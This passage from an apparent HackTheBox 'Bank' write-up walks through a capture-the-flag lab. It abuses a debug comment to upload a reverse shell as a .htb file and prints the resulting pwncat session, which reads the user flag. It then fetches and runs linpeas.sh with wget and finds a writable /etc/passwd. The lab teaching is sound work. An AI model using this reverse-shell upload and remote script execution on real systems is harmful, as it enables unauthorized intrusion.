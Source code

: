 However, by looking in the source code of the website, we see the following comment:
```html
               		<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```

We might need to upload our shell as `revshell.htb`.

![[Bank - upload shell.png]]

Bingo! We got our reverse shell:

```sh
pwncat-cs -lp 4444
[22:32:22] Welcome to pwncat 🐈!                                                           __main__.py:164
[22:39:18] received connection from 10.129.29.200:56846                                         bind.py:84
[22:39:20] 0.0.0.0:4444: upgrading from /bin/dash to /bin/bash                              manager.py:957
[22:39:21] 10.129.29.200:56846: registered new host w/ db                                   manager.py:957
(local) pwncat$                                                                                           
(remote) www-data@bank:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@bank:/$ whoami
www-data

(remote) www-data@bank:/$ cd home
(remote) www-data@bank:/home$ ls
chris
(remote) www-data@bank:/home$ cd chris
(remote) www-data@bank:/home/chris$ ls
user.txt
(remote) www-data@bank:/home/chris$ cat user.txt 
4b24bb24fdf9205e55bcfcd717a70030
```

# Privilege Escalation

Now that we got our user flag, we need to look for root flag.

We can do it by running linpeas after uploading it:
```sh
# I'll host it on a python server
wget http://ip/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

<...>
═╣ Writable passwd file? ................ /etc/passwd is writable
<...>
```
